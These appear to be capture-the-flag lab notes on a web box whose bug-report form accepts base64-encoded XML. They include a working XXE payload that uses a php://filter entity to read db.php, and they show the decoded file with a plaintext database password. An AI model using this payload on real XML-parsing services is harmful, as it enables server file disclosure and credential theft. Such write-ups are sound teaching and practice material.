 # XEE

### Log Submit invokes POST On 

![[Pasted image 20210724212531.png]]

![[Pasted image 20210724212546.png]]

Base64 XML Payload.

### GoBuster

![[Pasted image 20210724235821.png]]


### XXE

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=db.php">]>
		<bugreport>
		<title>START_&file;_END</title>
		<cwe>START_&file;_END</cwe>
		<cvss>START_&file;_END</cvss>
		<reward>START_&file;_END</reward>
		</bugreport>
```


```bash
echo 'PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=' | base64 -d
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>

		```